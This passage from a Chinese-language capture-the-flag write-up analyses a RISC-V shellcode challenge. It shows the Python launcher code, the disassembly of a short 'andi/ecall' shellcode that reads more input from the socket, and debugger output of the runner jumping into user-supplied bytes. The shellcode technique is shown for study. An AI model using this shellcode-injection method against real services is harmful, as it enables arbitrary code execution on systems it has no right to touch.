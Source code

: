 ```
p = subprocess.Popen([
                os.path.join(
                    tmpdir, os.path.basename(SHUFFL_PATH)), "5",
                f"./qemu-`{`arch`}`-static", f"./runner-`{`arch`}`"
            ], cwd=tmpdir, stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=1)
```

标准错误(2)被重定向到标准输出(1)，而该python文件的标准输入和输出都是socket文件描述符，所以在shellcode中从标准错误读数据也就是从socket文件描述符。

反汇编一下这三个字节的shellcode：

```
print(disasm(unhex("69897300000000"), arch="riscv", bits=64))
   0:   8969                    andi    a0, a0, 26
   2:   00000073                ecall
```

通过调试可知在`runner-riscv64`中：

```
0x105ce &lt;main+414&gt;       jal    ra, 0x10cac &lt;__assert_fail&gt;
      0x105d2 &lt;main+418&gt;       lui    a2, 0x1
      0x105d4 &lt;main+420&gt;       ld     a1, -1056(s0)
 →    0x105da &lt;main+426&gt;       jal    ra, 0x2094e &lt;read&gt;
      0x105de &lt;main+430&gt;       ld     a5, -1056(s0)
      0x105e2 &lt;main+434&gt;       jalr   a5
      0x105e4 &lt;main+436&gt;       li     a5, 0
      0x105e6 &lt;main+438&gt;       mv     a3, a5
      0x105e8 &lt;main+440&gt;       auipc  a5, 0x60
```

执行完read标准输入后，就跳转到shellcode地址，在执行`jalr a5`指令时，寄存器上下文：

```
$zero: 0x0000000000000000  →  0x0000000000000000
$ra  : 0x00000000000105de  →  0x47819782be043783  →  0x47819782be043783
$sp  : 0x00000040007ffbb0  →  0x0000000000000000  →  0x0000000000000000
$gp  : 0x0000000000071030  →  0x0000000000000000  →  0x0000000000000000
$tp  : 0x0000000000072710  →  0x0000000000070678  →  0x0000000000051a68  →  0x00000000000709b0  →  0x0000000000000043  →  0x0000000000000043
$t0  : 0x0000000000072000  →  0x0000000000000000  →  0x0000000000000000
$t1  : 0x2f2f2f2f2f2f2f2f  →  0x2f2f2f2f2f2f2f2f
$t2  : 0x0000000000072000  →  0x0000000000000000  →  0x0000000000000000
$fp  : 0x00000040007ffff0  →  0x0000000000000000  →  0x0000000000000000
$s1  : 0x0000000000010b6a  →  0x0006f7b7e8221101  →  0x0006f7b7e8221101
$a0  : 0x0000000000000004  →  0x0000000000000004
$a1  : 0x0000004000801000  →  0x000000000a333231  →  0x000000000a333231
$a2  : 0x0000000000001000  →  0x0000000000001000
$a3  : 0x0000000000000022  →  0x0000000000000022
$a4  : 0x0000004000801000  →  0x000000000a333231  →  0x000000000a333231
$a5  : 0x0000004000801000  →  0x000000000a333231  →  0x000000000a333231
$a6  : 0x0000000000000000  →  0x0000000000000000
$a7  : 0x000000000000003f  →  0x000000000000003f
$s2  : 0x0000000000000000  →  0x0000000000000000
$s3  : 0x0000000000000000  →  0x0000000000000000
$s4  : 0x0000000000000000  →  0x0000000000000000
$s5  : 0x0000000000000000  →  0x0000000000000000
$s6  : 0x0000000000000000  →  0x0000000000000000
$s7  : 0x0000000000000000  →  0x0000000000000000
$s8  : 0x0000000000000000  →  0x0000000000000000
$s9  : 0x0000000000000000  →  0x0000000000000000
$s10 : 0x0000000000000000  →  0x0000000000000000
$s11 : 0x0000000000000000  →  0x0000000000000000
$t3  : 0xffffffffffffffff
$t4  : 0x000000000006ead0  →  0x0000000000070678  →  0x0000000000051a68  →  0x00000000000709b0  →  0x0000000000000043  →  0x0000000000000043
$t5  : 0x0000000000000000  →  0x0000000000000000
```